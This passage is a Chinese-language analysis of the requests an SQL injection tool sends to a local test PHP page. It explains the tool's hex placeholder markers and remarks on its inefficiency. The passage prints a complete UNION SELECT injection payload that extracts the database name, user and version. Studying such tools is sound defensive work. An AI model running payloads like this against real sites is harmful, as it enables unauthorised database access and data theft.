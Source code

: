 以上的 SQL 完成了注入点（`http://localhost/Test/1.php?id=739`执行的`SELECT * from wps_posts where ID = 739`）的类型、是否存在和字段数量的检测   里面有许多的 0x5b2f68345d 转换过来其实就是占位符，为了让工具扒下源代码后能够在页面类找到具有特殊意义的字符并进行截取：

![enter image description here](img/img31_u15_png.jpg)
￼
如果你足够聪明或仔细会发现他这样写有点浪费资源，因为他的 order 是从 1 一直递增到争取的长度的假如字段特别长（一般情况下还是很少出现的）可能要执行几十个甚至是更多的 HTTP 请求，如果这里使用二分法或许可以很好的解决吧。

我们接着往下看（还是点击 start 后发送的请求）：

```
/*获取数据库相关信息*/
SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d),concat(0x5b64625d,database(),0x5b2f64625d,0x5b75735d,user(),0x5b2f75735d,0x5b765d,version(),0x5b2f765d)-- 
```
